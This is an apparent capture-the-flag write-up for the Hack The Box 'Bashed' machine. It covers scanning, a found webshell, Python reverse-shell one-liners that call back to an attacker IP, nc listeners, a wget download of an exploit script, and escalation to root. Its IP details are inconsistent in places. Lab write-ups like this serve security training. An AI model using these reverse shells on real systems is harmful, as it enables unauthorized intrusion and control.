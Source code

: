 ## ------------------>> Bashed <<---------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.68 -p-
----------

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-20 19:50 EDT
    Nmap scan report for 10.10.10.68
    Host is up (0.17s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Arrexel's Development Site

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 579.17 seconds

// Navigate to http://10.10.10.68/

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/1.png)

// Lets search for some directories or files with [dirsearch](https://github.com/maurosoria/dirsearch)

    $ python3 dirsearch.py -u http://10.10.10.68/ -t 150
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 150 | Wordlist size: 10903

    Target: http://10.10.10.68/

    ...
    [19:55:25] 200 -    8KB - /about.html
    [19:55:30] 200 -    0B  - /config.php
    [19:55:30] 200 -    8KB - /contact.html
    [19:55:31] 200 -    1KB - /dev/
    [19:55:33] 200 -    2KB - /images/
    [19:55:33] 200 -    8KB - /index.html
    [19:55:33] 200 -    3KB - /js/
    [19:55:35] 200 -  939B  - /php/
    [19:55:37] 403 -  300B  - /server-status/
    [19:55:40] 200 -   14B  - /uploads/

// we got some interesting directories the most interesting its /dev/

// Navigate to http://10.10.10.68/dev/

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/2.png)

// Clicking on 'phpbash.php' gives us a webshell ! and user flag !

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Bashed/3.png)

### ----Privelleges Escalation-------

// After verify we got python on the target system

    www-data@bashed:/var/www/html/dev# which python

    /usr/bin/python

// We can get a better shell with python(from [here](https://www.pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

// First open a listiner

    $nc -lvnp 1444
    listening on [any] 1444 ...
------

    $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.244",1444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

// And we got a shell

    $ nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.244] from (UNKNOWN) [10.10.10.68] 58676
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
// Checking which sudo permission have www-data we can see that he can run scriptmanager

    $ sudo -u scriptmanager /bin/bash

    id
    uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)

// Now we got shell as scriptmanager, searching the system i found directory called 'scripts' that its user own in '/'

    $ pwd
    /

    $ ls -al
    total 88
    ...
    drwxr-xr-x  18 root          root            500 Aug 20 16:49 run
    drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
    drwxrwxr--   2 scriptmanager scriptmanager  4096 Dec  4  2017 scripts
    drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
    ...

    $ cd scripts

    $ ls
    test.py
    test.txt

// In /scripts we have 2 files (test.py & test.txt)

    $ cat test.py
    f = open("test.txt", "w")
    f.write("testing 123!")
    f.close

    $ cat test.txt
    testing 123!

// Checking for file permissions we can see that root own test.txt file

    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:33 test.txt

// Also checking after few minutes i can see that file is modify himself

    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:33 test.txt
    $ ls -al
    total 16
    drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
    drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
    -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
    -rw-r--r--  1 root          root            12 Aug 20 17:35 test.txt

// Lets try to modify the test.py file to give us a shell as root

// first we will make reverse shell file with python(found one [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

    $ cat exploit.py

    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.24",1337)) //change this
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
    
// For upload the file we will open http python server

    $ python3 -m http.server 9001
    Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...

// Open a listiner in another terminal

    $nc -lvnp 1445
    listening on [any] 1445 ...

// And upload the exploit.py with wget command

    $ wget http://10.10.16.244:9001/exploit.py

// Wait a few seconds, and we got a root shell and the flag !

    $ nc -lvnp 1445
    
    listening on [any] 1445 ...
    connect to [10.10.16.244] from (UNKNOWN) [10.10.10.68] 48982
    /bin/sh: 0: can't access tty; job control turned off
    # id 
    uid=0(root) gid=0(root) groups=0(root)
    # cat root/root.txt    
    cat: root/root.txt: No such file or directory
    # cat /root/root.txt
    cc4f0afe....................

